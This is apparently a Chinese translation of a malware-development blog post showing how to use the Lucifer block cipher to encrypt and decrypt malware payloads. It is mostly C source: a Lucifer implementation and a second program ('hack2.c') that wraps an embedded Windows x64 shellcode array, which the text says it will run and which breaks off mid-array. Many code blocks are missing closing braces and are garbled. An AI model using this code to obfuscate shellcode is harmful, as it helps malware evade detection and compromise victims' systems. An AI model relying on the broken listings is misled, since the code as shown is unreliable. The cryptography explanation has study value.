







\newpage
\subsection{恶意软件与密码学研究（第 5 部分，第 33 篇）：通过 Lucifer 算法加密载荷（简单的 C 示例）}

﷽

你好，网络安全爱好者们和白帽子们！

{width="80%"}

这篇文章是我自己研究如何在恶意软件开发中使用 Lucifer 分组密码的成果。和往常一样，在探索各种密码学算法时，我决定看看把它用于载荷的加密/解密会有什么效果。

### Feistel 网络

应读者们的要求，我想再回顾一下什么是 Feistel 网络。这是一个非常重要的概念，在现代密码学和加密系统中扮演着关键角色。

Feistel 网络是由 Horst Feistel 于 1971 年在 IBM 实验室提出的一种分组加密技术。Feistel 网络是一种分组密码结构，它把每个分组拆分成两个相等的部分：左子块（\(L\)）和右子块（\(R\)）。左子块通过一个函数进行变换：

\[ x = f(L, K) \]

其中 \(K\) 代表密钥。这个函数可以是任意一种密码学运算，比如移位密码。变换后的左子块再与保持不变的右子块异或：\(x = x \oplus R\)。之后，左右子块互换位置，这一过程重复进行若干轮。最终的输出就是加密后的数据。

### Lucifer

Lucifer 是最早的一批分组密码之一，由 Horst Feistel 于 1970 年代在 IBM 开发。它是一种对称密钥密码，作用于 128 位分组，并采用了 Feistel 网络——这一结构后来成为更著名的数据加密标准（DES）的基础。

在 Lucifer 加密中，明文被分成两段，其中一段经过变换，变换后的输出再与另一段异或。这一过程借助 S 盒、置换和密钥编排重复进行若干次迭代，以保证安全性。Lucifer 的 S 盒接受 4 位输入并产生 4 位输出；S 盒的输入来自上一轮 S 盒经过位置换后的输出，而首轮 S 盒的输入则是明文。有一个关键位用于从两个候选中选出具体的 S 盒。书中把 Lucifer 描述为一个具有 9 位输入和 8 位输出的单一 T 盒。与 DES 不同，轮与轮之间没有交换，也没有使用分组的两半。Lucifer 采用 16 轮、128 位分组，其密钥编排也比 DES 简单。

### 实战示例 1

我们来动手实现。首先需要定义辅助函数、常量和宏：

```cpp
#define block_size 16 // 128 bit
#define key_size 16  // 128 bit

static const unsigned char s0[16] = {
  0x0C, 0x0F, 0x07, 0x0A, 0x0E, 0x0D, 0x0B, 0x00,
  0x02, 0x06, 0x03, 0x01, 0x09, 0x04, 0x05, 0x08
};

static const unsigned char s1[16] = {
  0x07, 0x02, 0x0E, 0x09, 0x03, 0x0B, 0x00, 0x04,
  0x0C, 0x0D, 0x01, 0x0A, 0x06, 0x0F, 0x08, 0x05
};

static const unsigned char m1[8] = {
  0x80, 0x40, 0x20, 0x10, 0x08, 0x04, 0x02, 0x01
};

static const unsigned char m2[8] = {
  0x7F, 0xBF, 0xDF, 0xEF, 0xF7, 0xFB, 0xFD, 0xFE
};

// macro to perform bitwise shifts
#define shift_left(x, n) ((x) << (n))
#define shift_right(x, n) ((unsigned char)(x) >> (n))

// extract high and low nibbles
#define highsubbyte(x) shift_right((x), 4)
#define lowsubbyte(x) ((x) & 0x0F)

// swap function for char types
void swap(char* arg1, char* arg2) {
  char tmp = *arg1;
  *arg1 = *arg2;
  *arg2 = tmp;

```

接下来是主加密函数。我一步步来看：

该函数以一个 128 位分组（16 字节）和密钥作为输入。它把分组拆成左右两半：

```cpp
char* lower_half = block;
char* upper_half = block + block_size / 2;
```

如果是解密，初始的密钥字节索引被设为 8，否则为 0：

```cpp
int key_byte_idx = decrypt ? 8 : 0;
const int round_count = 16;
```

我们开始一个 16 轮的变换循环。如果是解密，每轮开始时先推进密钥字节索引：

```cpp
for (int round = 0; round < round_count; ++round) {
  if (decrypt) {
  key_byte_idx = (key_byte_idx + 1) % round_count;
  }
```

在每一轮中，我们处理 8 个步骤（对应上半部分的每个字节）：

```cpp
for (int step = 0; step < 8; ++step) {
  char message_byte = upper_half[step];
```

这一段代码实现混淆步骤。它根据密钥字节和步骤，用两个 S 盒中的一个来变换消息字节：

```cpp
if (key[transform_control_byte_idx] & m1[step_count - step - 1]) {
  message_byte = shift_left(s1[highsubbyte(message_byte)], 4) | s0[lowsubbyte
  (message_byte)];
} else {
  message_byte = shift_left(s0[highsubbyte(message_byte)], 4) | s1[lowsubbyte
  (message_byte)];

```

然后是密钥中断逻辑：

```cpp
message_byte ^= key[key_byte_idx];
```

这里，变换后的消息字节与密钥字节异或，从而引入密钥相关的变化。

下一步是置换步骤，其中 `message_byte` 的各位被重新排列：

```cpp
message_byte = (shift_right(message_byte & m1[0], 3)) |
  (shift_right(message_byte & m1[1], 4)) |
  (shift_left(message_byte & m1[2], 2)) |
  (shift_right(message_byte & m1[3], 1)) |
  (shift_left(message_byte & m1[4], 2)) |
  (shift_left(message_byte & m1[5], 4)) |
  (shift_right(message_byte & m1[6], 1)) |
  (shift_left(message_byte & m1[7], 1));
```

得到的 `message_byte` 再与 `lower_half` 的各位异或。

```cpp
lower_half[(7 + step) % step_count] = 
((message_byte ^ lower_half[(7 + step) % step_count]) & 
m1[0]) | (lower_half[(7 + step) % step_count] & m2[0]);
// repeat similar logic for other bits...
```

然后，我们递增 `key_byte_idx`，以确保每一轮使用不同的密钥字节：

```cpp
if (step < step_count - 1 || decrypt) {
  key_byte_idx = (key_byte_idx + 1) % round_count;

```

每一轮结束时，`lower_half` 和 `upper_half` 被交换：

```cpp
for (int i = 0; i < block_size / 2; ++i) {
  swap(&lower_half[i], &upper_half[i]);

```

所有轮次结束后，再交换一次两半，以完成整个过程：

```cpp
for (int i = 0; i < block_size / 2; ++i) {
  swap(&block[i], &block[i + block_size / 2]);

```

该函数的完整源码如下：

```cpp
void Lucifer(char block[block_size], char key[key_size], bool decrypt) {
  char* lower_half = block;
  char* upper_half = block + block_size / 2;
  
  int key_byte_idx = decrypt ? 8 : 0;
  const int round_count = 16;
  
  for (int round = 0; round < round_count; ++round) {
  if (decrypt) {
  key_byte_idx = (key_byte_idx + 1) % round_count;
  }
  
  int transform_control_byte_idx = key_byte_idx;
  const int step_count = 8;
  
  for (int step = 0; step < step_count; ++step) {
  char message_byte = upper_half[step];
  
  // confusion
  if (key[transform_control_byte_idx] & m1[step_count - step - 1]) {
  message_byte = shift_left(s1[highsubbyte(message_byte)], 4) | s0
  [lowsubbyte(message_byte)];
  } else {
  message_byte = shift_left(s0[highsubbyte(message_byte)], 4) | s1
  [lowsubbyte(message_byte)];
  }
  
  // key interruption
  message_byte ^= key[key_byte_idx];
  
  // permutation
  message_byte = (shift_right(message_byte & m1[0], 3)) |
  (shift_right(message_byte & m1[1], 4)) |
  (shift_left(message_byte & m1[2], 2)) |
  (shift_right(message_byte & m1[3], 1)) |
  (shift_left(message_byte & m1[4], 2)) |
  (shift_left(message_byte & m1[5], 4)) |
  (shift_right(message_byte & m1[6], 1)) |
  (shift_left(message_byte & m1[7], 1));
  
  // diffusion
  lower_half[(7 + step) % step_count] = ((message_byte ^ lower_half[(7 + 
  step) % step_count]) & m1[0]) | (lower_half[(7 + step) % step_count] & 
  m2[0]);
  lower_half[(6 + step) % step_count] = ((message_byte ^ lower_half[(6 + 
  step) % step_count]) & m1[1]) | (lower_half[(6 + step) % step_count] & 
  m2[1]);
  lower_half[(2 + step) % step_count] = ((message_byte ^ lower_half[(2 + 
  step) % step_count]) & m1[2]) | (lower_half[(2 + step) % step_count] & 
  m2[2]);
  lower_half[(1 + step) % step_count] = ((message_byte ^ lower_half[(1 + 
  step) % step_count]) & m1[3]) | (lower_half[(1 + step) % step_count] & 
  m2[3]);
  lower_half[(5 + step) % step_count] = ((message_byte ^ lower_half[(5 + 
  step) % step_count]) & m1[4]) | (lower_half[(5 + step) % step_count] & 
  m2[4]);
  lower_half[(0 + step) % step_count] = ((message_byte ^ lower_half[(0 + 
  step) % step_count]) & m1[5]) | (lower_half[(0 + step) % step_count] & 
  m2[5]);
  lower_half[(3 + step) % step_count] = ((message_byte ^ lower_half[(3 + 
  step) % step_count]) & m1[6]) | (lower_half[(3 + step) % step_count] & 
  m2[6]);
  lower_half[(4 + step) % step_count] = ((message_byte ^ lower_half[(4 + 
  step) % step_count]) & m1[7]) | (lower_half[(4 + step) % step_count] & 
  m2[7]);
  
  if (step < step_count - 1 || decrypt) {
  key_byte_idx = (key_byte_idx + 1) % round_count;
  }
  }
  
  // swap halves
  for (int i = 0; i < block_size / 2; ++i) {
  swap(&lower_half[i], &upper_half[i]);
  }
  }
  
  // physically swap halves
  for (int i = 0; i < block_size / 2; ++i) {
  swap(&block[i], &block[i + block_size / 2]);
  }

```

所以，该函数用 16 轮混淆、密钥中断、置换和扩散来处理一个 128 位分组。

最后是如何加密明文分组的完整源码：

```cpp
/*
 * hack.c
 * Lucifer encryption example
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/10/20/malware-cryptography-33.html
 */
#include <stdio.h>
#include <stdbool.h>
#include <string.h>

#define block_size 16 // 128 bit
#define key_size 16  // 128 bit

static const unsigned char s0[16] = {
  0x0C, 0x0F, 0x07, 0x0A, 0x0E, 0x0D, 0x0B, 0x00,
  0x02, 0x06, 0x03, 0x01, 0x09, 0x04, 0x05, 0x08
};

static const unsigned char s1[16] = {
  0x07, 0x02, 0x0E, 0x09, 0x03, 0x0B, 0x00, 0x04,
  0x0C, 0x0D, 0x01, 0x0A, 0x06, 0x0F, 0x08, 0x05
};

static const unsigned char m1[8] = {
  0x80, 0x40, 0x20, 0x10, 0x08, 0x04, 0x02, 0x01
};

static const unsigned char m2[8] = {
  0x7F, 0xBF, 0xDF, 0xEF, 0xF7, 0xFB, 0xFD, 0xFE
};

// macro to perform bitwise shifts
#define shift_left(x, n) ((x) << (n))
#define shift_right(x, n) ((unsigned char)(x) >> (n))

// extract high and low nibbles
#define highsubbyte(x) shift_right((x), 4)
#define lowsubbyte(x) ((x) & 0x0F)

// swap function for char types
void swap(char* arg1, char* arg2) {
  char tmp = *arg1;
  *arg1 = *arg2;
  *arg2 = tmp;

void Lucifer(char block[block_size], char key[key_size], bool decrypt) {
  char* lower_half = block;
  char* upper_half = block + block_size / 2;
  
  int key_byte_idx = decrypt ? 8 : 0;
  const int round_count = 16;
  
  for (int round = 0; round < round_count; ++round) {
  if (decrypt) {
  key_byte_idx = (key_byte_idx + 1) % round_count;
  }
  
  int transform_control_byte_idx = key_byte_idx;
  const int step_count = 8;
  
  for (int step = 0; step < step_count; ++step) {
  char message_byte = upper_half[step];
  
  // confusion
  if (key[transform_control_byte_idx] & m1[step_count - step - 1]) {
  message_byte = shift_left(s1[highsubbyte(message_byte)], 4) | s0
  [lowsubbyte(message_byte)];
  } else {
  message_byte = shift_left(s0[highsubbyte(message_byte)], 4) | s1
  [lowsubbyte(message_byte)];
  }
  
  // key interruption
  message_byte ^= key[key_byte_idx];
  
  // permutation
  message_byte = (shift_right(message_byte & m1[0], 3)) |
  (shift_right(message_byte & m1[1], 4)) |
  (shift_left(message_byte & m1[2], 2)) |
  (shift_right(message_byte & m1[3], 1)) |
  (shift_left(message_byte & m1[4], 2)) |
  (shift_left(message_byte & m1[5], 4)) |
  (shift_right(message_byte & m1[6], 1)) |
  (shift_left(message_byte & m1[7], 1));
  
  // diffusion
  lower_half[(7 + step) % step_count] = ((message_byte ^ lower_half[(7 + 
  step) % step_count]) & m1[0]) | (lower_half[(7 + step) % step_count] & 
  m2[0]);
  lower_half[(6 + step) % step_count] = ((message_byte ^ lower_half[(6 + 
  step) % step_count]) & m1[1]) | (lower_half[(6 + step) % step_count] & 
  m2[1]);
  lower_half[(2 + step) % step_count] = ((message_byte ^ lower_half[(2 + 
  step) % step_count]) & m1[2]) | (lower_half[(2 + step) % step_count] & 
  m2[2]);
  lower_half[(1 + step) % step_count] = ((message_byte ^ lower_half[(1 + 
  step) % step_count]) & m1[3]) | (lower_half[(1 + step) % step_count] & 
  m2[3]);
  lower_half[(5 + step) % step_count] = ((message_byte ^ lower_half[(5 + 
  step) % step_count]) & m1[4]) | (lower_half[(5 + step) % step_count] & 
  m2[4]);
  lower_half[(0 + step) % step_count] = ((message_byte ^ lower_half[(0 + 
  step) % step_count]) & m1[5]) | (lower_half[(0 + step) % step_count] & 
  m2[5]);
  lower_half[(3 + step) % step_count] = ((message_byte ^ lower_half[(3 + 
  step) % step_count]) & m1[6]) | (lower_half[(3 + step) % step_count] & 
  m2[6]);
  lower_half[(4 + step) % step_count] = ((message_byte ^ lower_half[(4 + 
  step) % step_count]) & m1[7]) | (lower_half[(4 + step) % step_count] & 
  m2[7]);
  
  if (step < step_count - 1 || decrypt) {
  key_byte_idx = (key_byte_idx + 1) % round_count;
  }
  }
  
  // swap halves
  for (int i = 0; i < block_size / 2; ++i) {
  swap(&lower_half[i], &upper_half[i]);
  }
  }
  
  // physically swap halves
  for (int i = 0; i < block_size / 2; ++i) {
  swap(&block[i], &block[i + block_size / 2]);
  }

int main() {
  char message[block_size + 1] = "meowmeowmeowmeow";  // 16 characters + null 
  // terminator
  char key[key_size] = "abcdefghijklmnop";  // example 128-bit key

  message[block_size] = '\0';  // add a null terminator at the end of the 
  // message

  printf("original block: %s\n", message);

  Lucifer(message, key, false);  // encrypt
  printf("encrypted block: ");
  for (int i = 0; i < block_size; i++) {
  printf("%02x ", (unsigned char)message[i]);
  }
  printf("\n");

  Lucifer(message, key, true);  // decrypt
  printf("decrypted block: %s\n", message);

  return 0;

```

如你所见，在 main 函数里我只是把 `meowmeowmeowmeow` 这个字符串加密再解密而已。

### 演示 1

我们来看看这段代码是怎么工作的。先为 Linux 编译它：

```bash
gcc hack.c -o hack
```

{width="80%"}

然后运行它：

```bash
./hack
```

{width="80%"}

如你所见，在这种情况下一切都运行完美。

### 实战示例 2

我们换一种思路来实现：加密/解密载荷，然后运行它。

这段代码的源码与第一个例子类似，唯一的区别是新增了载荷的加密和解密函数：

```cpp
// payload encryption function
void lucifer_encrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
  Lucifer((char*)(payload + i * block_size), (char*)key, false);
  }

// payload decryption function
void lucifer_decrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
  Lucifer((char*)(payload + i * block_size), (char*)key, true);
  }

```

这个版本的代码正确地使用了 Lucifer 密码。它借助载荷加密和解密两个函数，确保载荷能够被完整加密和解密。

所以完整源码看起来像这样（`hack2.c`）：

```cpp
/*
 * hack.c
 * Lucifer payload encryption/decryption
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/10/20/malware-cryptography-33.html
 */
#include <stdio.h>
#include <stdbool.h>
#include <string.h>
#include <windows.h>

#define block_size 16 // 128 bit
#define key_size 16  // 128 bit

static const unsigned char s0[16] = {
  0x0C, 0x0F, 0x07, 0x0A, 0x0E, 0x0D, 0x0B, 0x00,
  0x02, 0x06, 0x03, 0x01, 0x09, 0x04, 0x05, 0x08
};

static const unsigned char s1[16] = {
  0x07, 0x02, 0x0E, 0x09, 0x03, 0x0B, 0x00, 0x04,
  0x0C, 0x0D, 0x01, 0x0A, 0x06, 0x0F, 0x08, 0x05
};

static const unsigned char m1[8] = {
  0x80, 0x40, 0x20, 0x10, 0x08, 0x04, 0x02, 0x01
};

static const unsigned char m2[8] = {
  0x7F, 0xBF, 0xDF, 0xEF, 0xF7, 0xFB, 0xFD, 0xFE
};

#define shift_left(x, n) ((x) << (n))
#define shift_right(x, n) ((unsigned char)(x) >> (n))
#define highsubbyte(x) shift_right((x), 4)
#define lowsubbyte(x) ((x) & 0x0F)

void swap(char* arg1, char* arg2) {
  char tmp = *arg1;
  *arg1 = *arg2;
  *arg2 = tmp;

void Lucifer(char block[block_size], char key[key_size], bool decrypt) {
  char* lower_half = block;
  char* upper_half = block + block_size / 2;

  int key_byte_idx = decrypt ? 8 : 0;
  const int round_count = 16;

  for (int round = 0; round < round_count; ++round) {
  if (decrypt) {
  key_byte_idx = (key_byte_idx + 1) % round_count;
  }

  int transform_control_byte_idx = key_byte_idx;
  const int step_count = 8;

  for (int step = 0; step < step_count; ++step) {
  char message_byte = upper_half[step];

  // confusion
  if (key[transform_control_byte_idx] & m1[step_count - step - 1]) {
  message_byte = shift_left(s1[highsubbyte(message_byte)], 4) | s0
  [lowsubbyte(message_byte)];
  } else {
  message_byte = shift_left(s0[highsubbyte(message_byte)], 4) | s1
  [lowsubbyte(message_byte)];
  }

  // key interruption
  message_byte ^= key[key_byte_idx];

  // permutation
  message_byte = (shift_right(message_byte & m1[0], 3)) |
  (shift_right(message_byte & m1[1], 4)) |
  (shift_left(message_byte & m1[2], 2)) |
  (shift_right(message_byte & m1[3], 1)) |
  (shift_left(message_byte & m1[4], 2)) |
  (shift_left(message_byte & m1[5], 4)) |
  (shift_right(message_byte & m1[6], 1)) |
  (shift_left(message_byte & m1[7], 1));

  // diffusion
  lower_half[(7 + step) % step_count] = ((message_byte ^ lower_half[(7 + 
  step) % step_count]) & m1[0]) | (lower_half[(7 + step) % step_count] & 
  m2[0]);
  lower_half[(6 + step) % step_count] = ((message_byte ^ lower_half[(6 + 
  step) % step_count]) & m1[1]) | (lower_half[(6 + step) % step_count] & 
  m2[1]);
  lower_half[(2 + step) % step_count] = ((message_byte ^ lower_half[(2 + 
  step) % step_count]) & m1[2]) | (lower_half[(2 + step) % step_count] & 
  m2[2]);
  lower_half[(1 + step) % step_count] = ((message_byte ^ lower_half[(1 + 
  step) % step_count]) & m1[3]) | (lower_half[(1 + step) % step_count] & 
  m2[3]);
  lower_half[(5 + step) % step_count] = ((message_byte ^ lower_half[(5 + 
  step) % step_count]) & m1[4]) | (lower_half[(5 + step) % step_count] & 
  m2[4]);
  lower_half[(0 + step) % step_count] = ((message_byte ^ lower_half[(0 + 
  step) % step_count]) & m1[5]) | (lower_half[(0 + step) % step_count] & 
  m2[5]);
  lower_half[(3 + step) % step_count] = ((message_byte ^ lower_half[(3 + 
  step) % step_count]) & m1[6]) | (lower_half[(3 + step) % step_count] & 
  m2[6]);
  lower_half[(4 + step) % step_count] = ((message_byte ^ lower_half[(4 + 
  step) % step_count]) & m1[7]) | (lower_half[(4 + step) % step_count] & 
  m2[7]);

  if (step < step_count - 1 || decrypt) {
  key_byte_idx = (key_byte_idx + 1) % round_count;
  }
  }

  // swap halves
  for (int i = 0; i < block_size / 2; ++i) {
  swap(&lower_half[i], &upper_half[i]);
  }
  }

  // physically swap halves
  for (int i = 0; i < block_size / 2; ++i) {
  swap(&block[i], &block[i + block_size / 2]);
  }

// payload encryption function
void lucifer_encrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
  Lucifer((char*)(payload + i * block_size), (char*)key, false);
  }

// payload decryption function
void lucifer_decrypt_payload(unsigned char* payload, int payload_len, 
unsigned char* key) {
  for (int i = 0; i < payload_len / block_size; i++) {
  Lucifer((char*)(payload + i * block_size), (char*)key, true);
  }

int main() {
  unsigned char key[16] = "meowmeowbowwoow"; // example 128-bit key
  unsigned char my_payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
  0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
